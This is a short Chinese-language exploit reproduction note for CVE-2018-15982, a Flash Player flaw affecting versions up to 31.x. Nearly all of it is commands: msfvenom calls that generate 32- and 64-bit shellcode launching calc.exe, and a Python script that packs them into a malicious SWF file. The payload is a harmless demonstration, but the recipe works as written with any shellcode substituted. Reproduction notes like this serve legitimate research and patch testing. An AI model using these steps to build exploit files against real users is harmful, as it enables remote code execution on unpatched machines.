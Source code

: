 # CVE-2018-15982 REC

_影响软件_
+ Flash Player

_影响版本_
+ =< 31.x


## 复现

` 
    
    msfvenom -p windows/exec cmd=calc.exe -f raw > 86.bin

    msfvenom -p windows/x64/exec cmd=calc.exe -f raw > 64.bin

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o apt.swf
`
